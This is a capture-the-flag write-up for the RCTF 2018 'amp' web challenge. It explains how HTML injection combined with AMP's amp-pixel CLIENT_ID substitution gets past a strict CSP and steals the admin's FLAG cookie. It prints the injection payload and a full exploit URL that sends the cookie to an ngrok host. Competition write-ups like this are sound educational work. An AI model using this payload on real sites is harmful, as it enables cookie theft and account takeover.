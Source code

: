 ```yaml
---
title: amp - RCTF 2018
layout: post
date: '2018-05-21 21:30:00'
---
```


> Building the future web, together.
> 
> http://amp.2018.teamrois.cn

*487 points, 22 Solves, web*

Visiting the page just gives us a simple message `HEY, INPUT YOUR NAME AFTER QUERYSTRING`. So appending **?name=vakzz** to the url reveals:

![tracked](/assets/rctf18/tracked.jpg)

Clicking the button takes us to another page telling us `We logged your request and contacted admin`

Trying a simple XSS like **?name=<i>vakzz</i>** works too! But scripts do not work as there is a strict CSP header **Content-Security-Policy: script-src 'nonce-8c31c3d90fd110285d3ee11963f40e56' 'strict-dynamic'; style-src 'unsafe-inline'** preventing anything from being run. The response also reveals what we are trying to steal **Set-Cookie: FLAG=flag_is_in_admin_cookie**

So we can inject any html and have a button to send it to the admin, and we need to steal the `FLAG` cookie. Looking at the source there is a script included `https://cdn.ampproject.org/v0.js` which is for [AMP](https://www.ampproject.org/learn/overview/). They have a [bunch of component](https://www.ampproject.org/docs/reference/components) for building web pages.

After looking at the avaible components, I came across [amp-pixel](https://www.ampproject.org/docs/reference/components/amp-pixel) which lets you ping back when you have a visitor. It also supports a bunch of [substitutions](https://github.com/ampproject/amphtml/blob/master/spec/amp-var-substitutions.md) including [CLIENT_ID](https://github.com/ampproject/amphtml/blob/master/spec/amp-var-substitutions.md#client-id) which takes a fallback cookie name! So we can just inject the following snippet and the pixel will do the rest:

```html
<amp-pixel src="http://my.server?CLIENT_ID(FLAG)"></amp-pixel>
```

I fired up [ngrok](https://ngrok.com/) went to `http://amp.2018.teamrois.cn/?name=%3Camp-pixel%20src=%22https://3aa73ec2.ngrok.io?CLIENT_ID(FLAG)%22%3E%3C/amp-pixel%3Evakzz` and clicked the button. Looking at the request in ngrok:

![ngrok](/assets/rctf18/ngrok.jpg)

&nbsp;

`RCTF{El_PsY_CONGRO0_sg0}`